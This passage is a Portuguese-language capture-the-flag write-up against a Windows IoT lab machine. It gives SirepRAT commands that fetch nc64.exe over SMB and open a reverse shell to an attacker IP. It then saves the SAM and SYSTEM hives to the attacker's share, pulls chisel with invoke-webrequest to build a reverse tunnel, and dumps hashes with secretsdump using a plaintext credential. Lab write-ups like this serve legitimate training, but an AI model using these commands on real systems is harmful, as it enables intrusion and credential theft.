 ```
    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c "copy \\10.10.14.11\smb\nc64.exe c:\temp\w.exe & c:\temp\w.exe -e C:\Windows\System32\cmd.exe 10.10.14.11 8082"'
```

Esse foi o payload que realmente funcionou, no entanto eu já entrei como system na máquina:

    python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args ' /c "copy \\10.10.14.11\smb\nc64.exe c:\temp\w.exe & c:\temp\w.exe -e C:\Windows\System32\cmd.exe 10.10.14.11 8084"'
    
Daí eu fiz alguns testes que me pareceram interessantes aqu... Uma vez com acesso na máquina:

    nc -nlvp 8084

## PrivEsc

    reg save HKLM\SAM \\10.10.14.11\smb\sam
    reg save HKLM\SYSTEM \\10.10.14.11\smb\system
    
Com esse modelo eu já consigo fazer o dump de maneira local na minha máquina com um comando simples:

    impacket-secretsdump -sam sam -system system local

![qownnotes-media-lbAHEP](../../../media/qownnotes-media-lbAHEP.png)


Esse foi uma forma de quebrar os hashes de senha, mas uma outra forma que eu achei interessante também foi com o chisel:

    invoke-webrequest http://10.10.14.11/chisel.exe -outfile c.exe
    ./c.exe client 10.10.14.11:9999 R:445:127.0.0.1:445
    
Na máquina atacante eu usei o seguinte comando:

    ./chisel server -p 9999 --socks5 --reverse
    impacket-secretsdump 'app:mesh5143@127.0.0.1'

**Vale ressaltar que esses últimos comandos foi mais para fins de teste, mas considere que a questão é ter uma credencial aadministrativa para obter os hashes de senha**